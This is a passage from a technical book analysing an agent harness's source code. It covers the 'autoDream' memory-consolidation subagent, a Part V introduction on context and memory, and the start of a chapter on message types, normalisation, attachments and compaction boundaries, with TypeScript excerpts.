The `executeAutoDream()` function at `src/services/autoDream/autoDream.ts:L319-L324` is called from the stop-hooks subsystem, which fires after each query turn in the main session. This means the dream system is only evaluated on the main session's turns, not on subagent turns. A long-running subagent that never returns control to the main session would not trigger auto-dream, even if the time and session gates are satisfied. This design is intentional: the dream system should not compete with active subagent work for resources.

### Memory directory may not exist yet

The `tryAcquireConsolidationLock()` function at `src/services/autoDream/consolidationLock.ts:L71` creates the memory directory with `mkdir({ recursive: true })` before writing the lock file. This handles the case where the memory directory does not exist yet (e.g., a fresh installation where no memories have been saved). The `recordConsolidation()` function at `src/services/autoDream/consolidationLock.ts:L130-L140` also creates the directory, handling the case where a manual `/dream` command is run before any automatic dream has fired.

### Dream dispatch and the forked agent lifecycle

When all three gates pass, the `executeAutoDream()` function at `src/services/autoDream/autoDream.ts:L191-L250` dispatches a forked subagent to perform consolidation. The dispatch follows a specific sequence:

1. Register a `DreamTask` in `AppState` with `registerDreamTask()`, capturing the `priorMtime` from the lock acquisition.
2. Build the consolidation prompt via `buildConsolidationPrompt()`, including the list of sessions since the last consolidation and the read-only Bash restriction.
3. Call `runForkedAgent()` with the dream-specific tool constraints (`canUseTool` callback).
4. Attach the `makeDreamProgressWatcher()` to monitor the forked agent's output and update `DreamTaskState` in real time.
5. On completion, send an inline notification to the main transcript if files were modified.

The forked agent runs in a separate process with its own context window, which is critical for two reasons. First, the dream agent must not contaminate the main session's context with consolidation-specific reasoning. Second, the dream agent has a different tool surface than the main session: it cannot use Bash for write operations, and its progress is tracked differently in `AppState`.

### Relationship between DreamTask and LocalAgentTask

The `DreamTask` type at `src/tasks/DreamTask/DreamTask.ts:L25-L41` shares the same `TaskStateBase` as `LocalAgentTaskState` but has a distinctly different shape. Where `LocalAgentTaskState` tracks the full message history and supports backgrounding/foregrounding, `DreamTaskState` collapses each turn into a `DreamTurn` (text summary plus tool-use count) and tracks only the files touched. This difference reflects the dream agent's role: it is a background maintenance task whose detailed reasoning is less important than which files it modified and whether it is still running.

The `registerDreamTask()` function at `src/tasks/DreamTask/DreamTask.ts:L52-L74` creates the `DreamTaskState` in `AppState`, including an `AbortController` for cancellation and the `priorMtime` from the lock acquisition. The `kill()` function at `src/tasks/DreamTask/DreamTask.ts:L132-L157` uses this `AbortController` to abort the forked agent and then rolls back the consolidation lock using the stashed `priorMtime`.

The `addDreamTurn()` function at `src/tasks/DreamTask/DreamTask.ts:L76-L104` updates the task state after each assistant turn. It skips the update entirely if the turn produced no text and no new files were touched, avoiding unnecessary re-renders. This optimization is important because dream agents can produce many turns during a consolidation run, and each state update triggers a React re-render in the UI.

### The dream completion path and inline notification

When the forked agent completes, the `autoDream` runner at `src/services/autoDream/autoDream.ts:L238-L248` checks whether the dream modified any files (via `filesTouched`). If files were modified, it sends an inline completion message to the main transcript using the `addInlineMessage()` function. This notification appears as "Improved N memories" in the user's conversation, using the same UI surface as the per-turn memory extraction that happens during normal agent operation.

The verb "Improved" (rather than "Saved") is deliberate: it distinguishes dream consolidation (which updates existing memories) from the per-turn memory extraction (which creates new memories). This distinction helps users understand what happened without inspecting the background task details.

When the dream completes without modifying any files, no notification is sent. This silent-completion behavior is intentional: if the dream agent determined that no consolidation was needed, the user should not be interrupted. The `filesTouched` array serves as the gate for this decision, which means that bash-mediated file modifications (which are not tracked in `filesTouched`) could cause the dream to complete silently even though it made changes. However, since the dream agent's Bash tool is restricted to read-only commands, this scenario should not occur in practice.

## Where cc diverges from the published pattern

### No explicit compaction types

HER Pattern 4 describes dream consolidation with "8 phases, 5 compaction types." cc's implementation uses a four-phase prompt (Orient, Gather, Consolidate, Prune) and does not define explicit compaction types. The dream agent is free to perform any kind of consolidation (merging, deduplication, pruning, reindexing) without categorizing the operation. This is a simpler approach that gives the agent more flexibility but makes it harder to audit what kind of consolidation was performed.

### No multi-process queue

HER Section 21 (Layer 8) describes a learning and adaptation layer where feedback from evaluators is recorded for future sessions and harness configuration is versioned and A/B tested. cc's dream system performs memory consolidation but does not feed evaluator feedback back into the harness configuration. The dream agent only modifies memory files, not the agent's behavior configuration. This means the dream system cannot learn from past mistakes (e.g., "this agent tends to produce incorrect import paths") and encode that knowledge as a behavior adjustment.

### Lock-based instead of queue-based

HER recommends a queue-based approach for background processing where tasks are submitted to a queue and processed in order. cc uses a lock-based approach where the first process to acquire the lock runs the consolidation. This is simpler but does not guarantee FIFO ordering or fair scheduling across processes. In a scenario where two cc instances share the same memory directory, the instance that acquires the lock first runs consolidation, and the other instance skips it entirely. The second instance does not queue a consolidation request for later processing.

### No explicit session-to-memory pipeline

HER Section 10.3 describes a session protocol where the UPDATE phase includes persisting notes and progress observations. cc's dream system does not have an explicit pipeline from session completion to memory extraction. Instead, the dream agent scans transcript files directly, looking for sessions with `mtime` after `lastConsolidatedAt`. This is a polling approach rather than an event-driven pipeline. The polling approach is simpler but has higher latency: the dream agent only discovers new sessions when the three gates align, which could be hours after the sessions complete.

## Developer takeaways for building a long-running agent

1. **Use a three-gate cascade for background tasks.** The time gate (cheapest) prevents unnecessary computation, the session gate (moderate cost) ensures there is new signal to process, and the lock gate (most expensive) prevents concurrent execution. Ordering gates from cheapest to most expensive minimizes wasted work. In cc's case, the time gate eliminates approximately 95% of turns because most turns occur within 24 hours of the last consolidation. The session gate eliminates approximately 80% of the remaining turns because most time-gate-passing turns occur without 5 new sessions. The lock gate handles the rare case of concurrent consolidation attempts.

2. **Store timestamps as file mtimes, not database entries.** The consolidation lock uses the file's `mtime` as the `lastConsolidatedAt` timestamp. This is a zero-cost approach: the filesystem already tracks modification times, and reading a file's `stat` is a single system call. No database, no JSON parsing, no schema validation. This pattern works well for any system that needs to track "the last time X happened" without adding a separate persistence layer.

3. **Roll back locks on failure.** When a background task fails, the lock or timestamp must be rewound so the next trigger can attempt again. Without rollback, a failed consolidation would leave the time gate satisfied for `minHours`, delaying the next attempt unnecessarily. The `priorMtime` field in `DreamTaskState` captures the pre-acquisition state so it can be restored on failure.

4. **Stash pre-acquisition state for rollback.** The `priorMtime` field is captured before the lock is acquired and used by the kill handler for rollback. This pattern -- saving the pre-mutation state so it can be restored on failure -- is essential for any background task that modifies shared state. Without it, the system has no way to determine what the state was before the task started.

5. **Restrict background agents to read-only Bash.** The dream agent's Bash tool is limited to read-only commands because background agents run without user oversight. Any file modification should go through the Edit/Write tools, which are observable and permission-gated. This restriction also ensures that `filesTouched` accurately reflects all modifications made by the dream agent.

6. **Acknowledge incomplete observability.** The `filesTouched` array explicitly documents that it is an incomplete reflection of what the dream agent changed. This honesty is important for debugging: if you treat an incomplete observation as complete, you will make incorrect assumptions about what happened during background processing. The comment in the code serves as a contract with future maintainers that the list should not be relied upon for complete accounting.

7. **Use scan throttles to prevent thundering herds.** When a gate passes but a downstream gate fails, the upstream gate will continue passing on every evaluation. A scan throttle (10-minute minimum between scans) prevents this cascade from consuming I/O resources. This pattern applies to any system with a gate cascade where upstream gates are cheaper than downstream gates.
# Part V. Context, Memory, and State

The hardest problem in long-running agent systems is not generating good responses -- it is maintaining coherence across thousands of turns, hundreds of tool calls, and multiple compaction cycles. Part V covers the systems that manage what the agent knows: messages, memory, compaction, session persistence, application state, and configuration.

The theme of Part V is context management across time. These seven chapters are grouped together because they address the same fundamental challenge: how does an agent that can only hold a finite context window maintain awareness of an arbitrarily long session? Each chapter covers a different layer of the solution, from the message model through persistent memory to the compaction hierarchy that rescues the context window when it fills.

Context management is the problem that distinguishes long-running agents from simple chatbots. A chatbot can afford to forget everything after each response. A long-running agent must remember what it did, what it learned, and what it promised to do -- not just for the current turn, but across an entire session that may span hours and thousands of interactions. HER identifies context rot (failure mode 6.1) as one of the most pervasive failure modes in production agents, and cc's response to this challenge is one of its most sophisticated subsystems.

Chapter 25 covers `src/utils/messages.ts` and `src/types/message.ts` -- the message types, `<history_snip>` markers, compact boundaries, attachments, and content replacement. Messages are the fundamental data structure of the conversation, and understanding their representation is prerequisite for understanding compaction, memory extraction, and session persistence.

Chapter 26 explores the memdir architecture -- the MEMORY.md index, per-memory markdown files, memory types (user, feedback, project, reference), age tracking, scanning, and relevance retrieval. Memdir is cc's implementation of HER's Pattern 3 (Tiered Memory): a persistent, filesystem-based memory store that survives across sessions and provides fast relevance retrieval for the current query.

Chapter 27 examines the SessionMemory service and memory extraction pipelines, the prompts that drive extraction, and feature gates. This chapter covers how cc decides what to remember from a session: the extraction pipeline that runs after each session, the prompts that identify salient information, and the feature gates that control when extraction fires.

Chapter 28 traces the compaction hierarchy through its five stages: `<history_snip>` replacement, Microcompact, Context Collapse, Autocompact, and Hard Reset -- including triggers, preservation semantics, and discard semantics. The compaction hierarchy is cc's most distinctive architectural feature and its implementation of HER's Pattern 5 (Progressive Context Compaction). Understanding it is essential for understanding how cc handles the inevitable context overflow that occurs in long sessions.

Chapter 29 covers session persistence and resume -- JSONL session storage, entry types, tombstones, head and tail reading, and the resume flow. Session persistence is what allows a cc process to be restarted without losing its conversational context. This chapter covers the storage format, the indexing strategy, and the resume flow that reconstructs a session from its persisted state.

Chapter 30 dissects the AppState store -- its Redux-like shape, reducers, subscribers, and team context. AppState is the global state management layer that tracks the current session, tool results, permission decisions, and other runtime state. It provides the reactive foundation that connects the query loop to the terminal UI.

Chapter 31 examines the settings cascade (org to user to project to directory to environment to flags), managed settings for enterprise, and CLAUDE.md discovery. The settings cascade is cc's implementation of HER's Configuration Surfaces principle: a six-layer precedence system that allows settings to be specified at multiple levels of granularity, from organizational policy down to per-command flags.

By the end of this Part, you should understand how cc represents and manages the full lifecycle of conversational context: how messages are stored and compacted, how memories persist across sessions, how the compaction hierarchy rescues overflowing contexts, how sessions survive process restarts, how application state is managed, and how configuration cascades through multiple layers. This understanding is essential for Part IV (which covers dream tasks that write to the memory system), Part VII (which covers the REPL that renders state), and Part X (which evaluates cc's context management against HER's patterns and failure modes).

Return to the Table of Contents in the front matter for an overview of all ten parts and fifty-seven chapters.
# Messages and the Conversation Model

## Overview

The conversation model is the central data structure of any long-running agent harness. In cc, messages flow through `src/utils/messages.ts` (~5,500 LOC) and `src/utils/attachments.ts` (~4,000 LOC), forming the backbone of every API call, every UI render, and every compaction decision. This chapter examines how cc represents, constructs, normalizes, and transforms messages as they travel from user keystroke through model response and back.

The message system is not a simple list of chat turns. It is a structured pipeline that handles synthetic messages, permission denials, tool-use pairing, image resizing, plan-mode tagging, memory injection, compaction boundaries, and a dozen other concerns. Understanding this pipeline is essential for anyone building a harness that must remain coherent over thousands of turns.

The core insight is that messages serve dual roles: they are both the API-level protocol (what gets sent to the model) and the UI-level data model (what gets rendered in the terminal). This dual responsibility creates tension. The API requires strict structural invariants (every `tool_use` must have a matching `tool_result`, messages must alternate roles), while the UI requires rich metadata (timestamps, provenance, compaction markers, attachment references). cc resolves this tension by maintaining a single `Message` type that carries both concerns, with a normalization layer that strips UI-only metadata before sending to the API.

## Data structures and contracts

### Message type taxonomy

The `Message` type is a discriminated union defined in `src/types/message.ts`. The primary variants are `UserMessage`, `AssistantMessage`, and a constellation of system-level message types. The imports in `messages.ts` reveal the full set:

```typescript
// src/utils/messages.ts:L41-L73
import type {
  AssistantMessage,
  AttachmentMessage,
  Message,
  MessageOrigin,
  NormalizedAssistantMessage,
  NormalizedMessage,
  NormalizedUserMessage,
  PartialCompactDirection,
  ProgressMessage,
  RequestStartEvent,
  StopHookInfo,
  StreamEvent,
  SystemAgentsKilledMessage,
  SystemAPIErrorMessage,
  SystemApiMetricsMessage,
  SystemAwaySummaryMessage,
  SystemBridgeStatusMessage,
  SystemCompactBoundaryMessage,
  SystemInformationalMessage,
  SystemLocalCommandMessage,
  SystemMemorySavedMessage,
  SystemMessage,
  SystemMessageLevel,
  SystemMicrocompactBoundaryMessage,
  SystemPermissionRetryMessage,
  SystemScheduledTaskFireMessage,
  SystemStopHookSummaryMessage,
  SystemTurnDurationMessage,
  TombstoneMessage,
  ToolUseSummaryMessage,
  UserMessage,
} from '../types/message.js'
```

The following class diagram shows the full message type hierarchy:

```mermaid
classDiagram
    class Message {
        <<discriminated union>>
        +type: string
        +uuid: UUID
        +timestamp: string
    }
    class UserMessage {
        +type: user
        +message: {role, content}
        +isMeta?: true
        +isVirtual?: true
        +isCompactSummary?: true
        +summarizeMetadata?: object
        +permissionMode?: PermissionMode
        +origin?: MessageOrigin
    }
    class AssistantMessage {
        +type: assistant
        +message: BetaMessage
        +isApiErrorMessage?: boolean
        +isVirtual?: boolean
        +requestId?: string
    }
    class SystemMessage {
        +type: system
        +subtype: string
        +level: SystemMessageLevel
        +content: string
    }
    class AttachmentMessage {
        +type: attachment
        +attachment: Attachment
    }
    class ProgressMessage {
        +type: progress
    }
    class SystemCompactBoundaryMessage {
        +subtype: compact_boundary
        +compactMetadata: object
        +logicalParentUuid?: UUID
    }
    class SystemMicrocompactBoundaryMessage {
        +subtype: microcompact_boundary
        +microcompactMetadata: object
    }
    Message <|-- UserMessage
    Message <|-- AssistantMessage
    Message <|-- SystemMessage
    Message <|-- AttachmentMessage
    Message <|-- ProgressMessage
    SystemMessage <|-- SystemCompactBoundaryMessage
    SystemMessage <|-- SystemMicrocompactBoundaryMessage
```

The `UserMessage` carries the user's input text, optional image paste IDs, permission mode at time of sending, and provenance metadata (`origin`). The `AssistantMessage` wraps the Anthropic API's `BetaMessage` type, adding cc-specific fields like `isApiErrorMessage`, `isVirtual`, and `requestId`. The system-level messages (`SystemCompactBoundaryMessage`, `SystemMicrocompactBoundaryMessage`, `SystemMemorySavedMessage`, etc.) carry harness-internal events that are never sent to the model but are persisted in the session JSONL for UI rendering and resume.

### Synthetic message constants

cc generates several synthetic messages that never originate from the user or the model. These are used for flow control:

```typescript
// src/utils/messages.ts:L207-L240
export const INTERRUPT_MESSAGE = '[Request interrupted by user]'
export const INTERRUPT_MESSAGE_FOR_TOOL_USE =
  '[Request interrupted by user for tool use]'
export const CANCEL_MESSAGE =
  "The user doesn't want to take this action right now. STOP what you are doing and wait for the user to tell you how to proceed."
export const REJECT_MESSAGE =
  "The user doesn't want to proceed with this tool use. The tool use was rejected (eg. if it was a file edit, the new_string was NOT written to the file). STOP what you are doing and wait for the user to tell you how to proceed."
```

These constants serve as coordination signals between the harness and the model. The `INTERRUPT_MESSAGE` fires when the user presses Escape mid-response; `CANCEL_MESSAGE` and `REJECT_MESSAGE` encode the harness's permission decisions back into the model's context so it can adjust its behavior. The `SYNTHETIC_MESSAGES` set collects these for downstream filtering:

```typescript
// src/utils/messages.ts:L302-L308
export const SYNTHETIC_MESSAGES = new Set([
  INTERRUPT_MESSAGE,
  INTERRUPT_MESSAGE_FOR_TOOL_USE,
  CANCEL_MESSAGE,
  REJECT_MESSAGE,
  NO_RESPONSE_REQUESTED,
])
```

The `isSyntheticMessage` function checks membership in this set, enabling the harness to filter synthetic messages from training data submission, analytics, and UI rendering.

### Message construction with `createUserMessage`

The `createUserMessage` factory handles a wide range of concerns in a single call site:

```typescript
// src/utils/messages.ts:L460-L501
export function createUserMessage({
  content,
  isMeta,
  isVisibleInTranscriptOnly,
  isVirtual,
  isCompactSummary,
  summarizeMetadata,
  toolUseResult,
  mcpMeta,
  uuid,
  timestamp,
  imagePasteIds,
  sourceToolAssistantUUID,
  permissionMode,
  origin,
}: {
  content: string | ContentBlockParam[]
  isMeta?: true
  isVisibleInTranscriptOnly?: true
  isVirtual?: true
  isCompactSummary?: true
  toolUseResult?: unknown
  mcpMeta?: {
    _meta?: Record<string, unknown>
    structuredContent?: Record<string, unknown>
  }
  uuid?: UUID | string
  timestamp?: string
  imagePasteIds?: number[]
  sourceToolAssistantUUID?: UUID
  permissionMode?: PermissionMode
  summarizeMetadata?: {
    messagesSummarized: number
    userContext?: string
    direction?: PartialCompactDirection
  }
  origin?: MessageOrigin
}): UserMessage {
```

The key flags are `isMeta` (marks harness-generated messages the model should see but treat as system-level), `isCompactSummary` (marks compaction-generated summary messages for post-compact context restoration), and `origin` (tracks whether a message came from human input, a slash command, or a hook). The `summarizeMetadata` field carries compaction provenance, recording how many messages were summarized and in which direction (prefix-preserving or suffix-preserving).

### Attachment type taxonomy

The `src/utils/attachments.ts` module defines a rich set of attachment types that carry non-conversational data into the model's context. The primary types include:

```typescript
// src/utils/attachments.ts:L295-L333
export type FileAttachment = {
  type: 'file'
  filename: string
  content: FileReadToolOutput
  /** Whether the file was truncated due to size limits */
  truncated?: boolean
  /** Path relative to CWD at creation time, for stable display */
  displayPath: string
}

export type CompactFileReferenceAttachment = {
  type: 'compact_file_reference'
  filename: string
  /** Path relative to CWD at creation time, for stable display */
  displayPath: string
}

export type PDFReferenceAttachment = {
  type: 'pdf_reference'
  filename: string
  pageCount: number
  fileSize: number
  /** Path relative to CWD at creation time, for stable display */
  displayPath: string
}

export type AlreadyReadFileAttachment = {
  type: 'already_read_file'
  filename: string
  content: FileReadToolOutput
  /** Whether the file was truncated due to size limits */
  truncated?: boolean
  /** Path relative to CWD at creation time, for stable display */
  displayPath: string
}
```

The `FileAttachment` type is the most common: it carries the content of a recently-read file for re-injection after compaction. The `CompactFileReferenceAttachment` is a lightweight alternative that carries only the filename (no content), used when the file is too large to re-inject. The `PDFReferenceAttachment` carries PDF metadata (page count, file size) rather than content, because PDFs are too large to include as text.

The hook attachment types encode the full lifecycle of hook execution:

```typescript
// src/utils/attachments.ts:L352-L380
export type HookAttachment =
  | HookCancelledAttachment
  | {
      type: 'hook_blocking_error'
      blockingError: HookBlockingError
      hookName: string
      toolUseID: string
      hookEvent: HookEvent
    }
  | HookNonBlockingErrorAttachment
  | HookErrorDuringExecutionAttachment
  | {
      type: 'hook_stopped_continuation'
      message: string
      hookName: string
      toolUseID: string
      hookEvent: HookEvent
    }
  | HookSuccessAttachment
  | {
      type: 'hook_additional_context'
      content: string[]
      hookName: string
      toolUseID: string
      hookEvent: HookEvent
    }
  | HookSystemMessageAttachment
  | HookPermissionDecisionAttachment
```

Each hook attachment type carries the hook name, tool use ID, and lifecycle event, enabling the model to understand the full context of hook execution. The `HookPermissionDecisionAttachment` is particularly important: it records whether a hook allowed or denied a tool use, which feeds into the permission audit trail.

### Memory injection configuration

The attachment system manages memory injection through per-turn budgets. The configuration constants bound the aggregate memory injection to prevent it from consuming the entire context window:

```typescript
// src/utils/attachments.ts:L269-L289
const MAX_MEMORY_LINES = 200
// Line cap alone doesn't bound size (200 x 500-char lines = 100KB).  The
// surfacer injects up to 5 files per turn via <system-reminder>, bypassing
// the per-message tool-result budget, so a tight per-file byte cap keeps
// aggregate injection bounded (5 x 4KB = 20KB/turn).  Enforced via
// readFileInRange's truncateOnByteLimit option.
const MAX_MEMORY_BYTES = 4096

export const RELEVANT_MEMORIES_CONFIG = {
  // Per-turn cap (5 x 4KB = 20KB) bounds a single injection, but over a
  // long session the selector keeps surfacing distinct files.  Cap the
  // cumulative bytes: once hit, stop prefetching entirely.  Budget is ~3
  // full injections; after that the most-relevant memories are already in
  // context.  Compact naturally resets the counter — old attachments are
  // gone from context, so re-surfacing is valid.
  MAX_SESSION_BYTES: 60 * 1024,
} as const
```

The per-file byte cap of 4KB bounds each memory file injection (5 files per turn = 20KB). The session-level cap of 60KB bounds cumulative injection across the entire session. Once the session cap is hit, memory prefetching stops entirely. The session cap is reset after compaction because old attachments are removed from context, making re-surfacing valid.

## Control flow

### Message lifecycle

The full lifecycle of a message in cc traverses construction, API serialization, response parsing, and UI rendering. The following diagram shows the major stages:

```mermaid
flowchart TD
    A[User Input / Slash Command] --> B[createUserMessage]
    B --> C[Permission Check]
    C -->|approved| D[API Call via claude.ts]
    C -->|denied| E[REJECT_MESSAGE inserted]
    E --> F[Message appended to conversation]
    D --> G[StreamEvent parsing]
    G --> H[createAssistantMessage]
    H --> I[Tool dispatch if tool_use blocks]
    I --> J[Tool result as UserMessage]
    J --> K[Microcompact check]
    K --> L[Messages normalized for next API call]
    L --> M[Session persistence as JSONL]
    M --> N[UI render via Ink]
```

### Message normalization

The `normalizeMessages` function splits multi-block messages into individual single-block messages, deriving new UUIDs when necessary. This is the process of message normalization: splitting multi-block messages into individual single-block messages with derived UUIDs, ensuring API structural requirements are met.

```typescript
// src/utils/messages.ts:L725-L728
export function deriveUUID(parentUUID: UUID, index: number): UUID {
  const hex = index.toString(16).padStart(12, '0')
  return `${parentUUID.slice(0, 24)}${hex}` as UUID
}
```

The `isNewChain` flag within `normalizeMessages` tracks whether any message in the conversation has been split. Once set, all subsequent messages receive derived UUIDs to maintain proper ordering and prevent duplicate UUIDs:

```typescript
// src/utils/messages.ts:L731-L773
export function normalizeMessages(messages: Message[]): NormalizedMessage[] {
  let isNewChain = false
  return messages.flatMap(message => {
    switch (message.type) {
      case 'assistant': {
        isNewChain = isNewChain || message.message.content.length > 1
        return message.message.content.map((_, index) => {
          const uuid = isNewChain
            ? deriveUUID(message.uuid, index)
            : message.uuid
          return {
            type: 'assistant' as const,
            timestamp: message.timestamp,
            message: {
              ...message.message,
              content: [_],
              context_management: message.message.context_management ?? null,
            },
            isMeta: message.isMeta,
            isVirtual: message.isVirtual,
            requestId: message.requestId,
            uuid,
            error: message.error,
            isApiErrorMessage: message.isApiErrorMessage,
            advisorModel: message.advisorModel,
          } as NormalizedAssistantMessage
        })
      }
      // ...user, attachment, progress, system cases...
    }
  })
}
```

### API normalization: the last gate

The `normalizeMessagesForAPI` function is the final transformation before messages reach the Anthropic API. It applies a series of transformations that ensure the message sequence satisfies the API's structural requirements while stripping cc-specific metadata that the model does not need. The function signature and its initial filtering pass reveal the core logic:

```typescript
// src/utils/messages.ts:L1989-L2076
export function normalizeMessagesForAPI(
  messages: Message[],
  tools: Tools = [],
): (UserMessage | AssistantMessage)[] {
  const availableToolNames = new Set(tools.map(t => t.name))

  const reorderedMessages = reorderAttachmentsForAPI(messages).filter(
    m => !((m.type === 'user' || m.type === 'assistant') && m.isVirtual),
  )

  // ... strip oversized PDF/image blocks from preceding user messages ...

  const result: (UserMessage | AssistantMessage)[] = []
  reorderedMessages
    .filter((_): _ is UserMessage | AssistantMessage | AttachmentMessage | SystemLocalCommandMessage => {
      if (
        _.type === 'progress' ||
        (_.type === 'system' && !isSystemLocalCommandMessage(_)) ||
        isSyntheticApiErrorMessage(_)
      ) {
        return false
      }
      return true
    })
    .forEach(message => {
      switch (message.type) {
        case 'user': {
          // Merge consecutive user messages (Bedrock requires role alternation)
          const lastMessage = last(result)
          if (lastMessage?.type === 'user') {
            result[result.length - 1] = mergeUserMessages(lastMessage, userMsg)
            return
          }
          result.push(normalizedMessage)
          return
        }
        // ... assistant, system cases ...
      }
    })
}
```

The key transformations applied by `normalizeMessagesForAPI` are:

1. **Role alternation enforcement**: The API requires that messages alternate between `user` and `assistant` roles. When compaction or hook execution produces consecutive messages of the same role, `normalizeMessagesForAPI` merges them via `mergeUserMessages` into a single message with concatenated content blocks.

2. **System message removal**: System-level messages (`SystemCompactBoundaryMessage`, `SystemMicrocompactBoundaryMessage`, `SystemMemorySavedMessage`, etc.) are filtered out because the API does not accept system messages in the conversation array. Only `SystemLocalCommandMessage` entries survive, converted to user messages so the model can reference previous command output.

3. **Progress and tombstone removal**: `ProgressMessage` and `TombstoneMessage` entries are UI-only and are never sent to the API.

4. **Virtual message stripping**: Messages marked `isVirtual` are display-only (e.g., REPL inner tool calls) and must never reach the API.

5. **Tool-use/tool-result pairing verification**: Orphaned `tool_result` blocks (from compaction boundaries or session resume) are paired with synthetic placeholders. Orphaned `tool_use` blocks receive synthetic denial responses.

6. **Image and PDF error stripping**: When a synthetic API error message indicates that a PDF or image was too large, the function walks backward to strip the offending content blocks from the preceding `isMeta` user message, preventing re-sending the problematic content on every subsequent API call.

The normalization pipeline is idempotent: running it on an already-normalized message sequence produces the same output. This is important because the query loop may invoke normalization multiple times (once before the API call, once during compaction, and once during session resume).

### Message reordering for UI display

The `reorderMessagesInUI` function groups tool-use messages with their associated hooks and results for display ordering. It performs two passes over the message list: first grouping by tool use ID, then reconstructing in the correct display order:

```typescript
// src/utils/messages.ts:L855-L950
export function reorderMessagesInUI(
  messages: (
    | NormalizedUserMessage
    | NormalizedAssistantMessage
    | AttachmentMessage
    | SystemMessage
  )[],
  syntheticStreamingToolUseMessages: NormalizedAssistantMessage[],
): (...)[] {
  const toolUseGroups = new Map<
    string,
    {
      toolUse: ToolUseRequestMessage | null
      preHooks: AttachmentMessage[]
      toolResult: NormalizedUserMessage | null
      postHooks: AttachmentMessage[]
    }
  >()

  // First pass: group messages by tool use ID
  for (const message of messages) {
    if (isToolUseRequestMessage(message)) {
      const toolUseID = message.message.content[0]?.id
      if (toolUseID) {
        if (!toolUseGroups.has(toolUseID)) {
          toolUseGroups.set(toolUseID, {
            toolUse: null, preHooks: [], toolResult: null, postHooks: [],
          })
        }
        toolUseGroups.get(toolUseID)!.toolUse = message
      }
      continue
    }
    // Handle pre-tool-use hooks, tool results, post-tool-use hooks ...
  }

  // Second pass: reconstruct the message list in the correct order
  // ...
}
```

This grouping ensures that when the Ink renderer displays a tool invocation, all related messages (the request, its pre-hooks, the result, and post-hooks) appear together rather than interleaved with other tool dispatches.

### Synthetic message flow diagram

The following diagram shows how synthetic messages flow through the system when a tool use is denied:

```mermaid
flowchart TD
    A[Model issues tool_use] --> B{Permission Check}
    B -->|User approves| C[Tool executes]
    B -->|User denies| D[REJECT_MESSAGE injected]
    B -->|Classifier denies| E[buildYoloRejectionMessage]
    B -->|Classifier unavailable| F[buildClassifierUnavailableMessage]
    D --> G[withMemoryCorrectionHint applied]
    G --> H[Model sees denial + hint]
    E --> H
    F --> H
    C --> I[Tool result as UserMessage]
    I --> J[API normalization]
    D --> J
    E --> J
    F --> J
```

The diagram illustrates the three denial paths and how they converge at the API normalization layer. Each denial path produces a message with different behavioral constraints: user denials are absolute, classifier denials are conditional, and unavailability denials are temporary. The `withMemoryCorrectionHint` function is applied only to explicit user denials, where the model is most likely to receive corrective feedback.

### Compaction boundary messages

Compaction inserts `SystemCompactBoundaryMessage` entries that mark where context was summarized. These boundaries are critical for the compaction pipeline to know which messages can be pruned and which must be preserved:

```typescript
// src/utils/messages.ts:L4530-L4555
export function createCompactBoundaryMessage(
  trigger: 'manual' | 'auto',
  preTokens: number,
  lastPreCompactMessageUuid?: UUID,
  userContext?: string,
  messagesSummarized?: number,
): SystemCompactBoundaryMessage {
  return {
    type: 'system',
    subtype: 'compact_boundary',
    content: `Conversation compacted`,
    isMeta: false,
    timestamp: new Date().toISOString(),
    uuid: randomUUID(),
    level: 'info',
    compactMetadata: {
      trigger,
      preTokens,
      userContext,
      messagesSummarized,
    },
    ...(lastPreCompactMessageUuid && {
      logicalParentUuid: lastPreCompactMessageUuid,
    }),
  }
}
```

The boundary marker carries metadata about the compaction trigger, the token count before compaction, and a reference to the last message before the boundary. The `logicalParentUuid` field chains the boundary to the pre-compact conversation, enabling the session persistence layer to reconstruct the conversation across resume boundaries.

### The history_snip mechanism

The `<history_snip>` system is cc's first line of defense against context rot (HER Failure Mode 6.1). Rather than summarizing or discarding messages, it selectively trims older messages from the API-bound payload while preserving them in the UI scrollback. The mechanism operates through short message IDs derived from UUIDs:

```typescript
// src/utils/messages.ts:L200-L205
export function deriveShortMessageId(uuid: string): string {
  const hex = uuid.replace(/-/g, '').slice(0, 10)
  return parseInt(hex, 16).toString(36).slice(0, 6)
}
```

These 6-character base36 IDs are injected into API-bound messages as `[id:...]` tags. When the snip system determines that a message should be trimmed, it replaces the message content with a compact reference using the short ID. The derivation is deterministic: the same UUID always produces the same short ID, so snip references survive normalization.

The `getMessagesAfterCompactBoundary` function returns only the messages that follow the last compaction boundary. When the `HISTORY_SNIP` feature gate is active, it also applies `projectSnippedView` to further trim the view:

```typescript
// src/utils/messages.ts:L4643-L4656
export function getMessagesAfterCompactBoundary<
  T extends Message | NormalizedMessage,
>(messages: T[], options?: { includeSnipped?: boolean }): T[] {
  const boundaryIndex = findLastCompactBoundaryIndex(messages)
  const sliced = boundaryIndex === -1 ? messages : messages.slice(boundaryIndex)
  if (!options?.includeSnipped && feature('HISTORY_SNIP')) {
    const { projectSnippedView } =
      require('../services/compact/snipProjection.js')
    return projectSnippedView(sliced as Message[]) as T[]
  }
  return sliced
}
```

The `includeSnipped` option allows the REPL to preserve full history for UI scrollback while the model-facing path receives the trimmed view. The backward scan in `findLastCompactBoundaryIndex` is deliberate: in a session with multiple compactions, only the most recent boundary matters for determining what the model has seen.

### Content replacement in messages

cc supports content replacement through the `replaceContent` mechanism, which allows post-hoc modification of message content without creating a new message. This is used in two key scenarios:

First, the microcompact pipeline replaces tool-result content with truncated summaries. When a tool produces a large output that has already been processed by the model, the microcompact pass replaces the full output with a shorter summary, reclaiming tokens without losing the semantic information the model already extracted.

Second, the image resizer replaces oversized images with downsampled versions. When a user pastes an image that exceeds the model's size limits, the `maybeResizeAndDownsampleImageBlock` function replaces the original base64 data with a resized version. The `normalizeMessagesForAPI` function then strips the original oversized block if a synthetic error message was generated, preventing API rejection.

Both replacement mechanisms preserve the message UUID, which is critical for maintaining the integrity of the tool-use/tool-result pairing and the compaction boundary chain.

### Memory correction hints

cc injects a subtle behavioral nudge into rejection messages. When a tool use is denied and auto-memory is enabled, a correction hint is appended:

```typescript
// src/utils/messages.ts:L176-L193
const MEMORY_CORRECTION_HINT =
  "\n\nNote: The user's next message may contain a correction or preference. Pay close attention — if they explain what went wrong or how they'd prefer you to work, consider saving that to memory for future sessions."

export function withMemoryCorrectionHint(message: string): string {
  if (
    isAutoMemoryEnabled() &&
    getFeatureValue_CACHED_MAY_BE_STALE('tengu_amber_prism', false)
  ) {
    return message + MEMORY_CORRECTION_HINT
  }
  return message
}
```

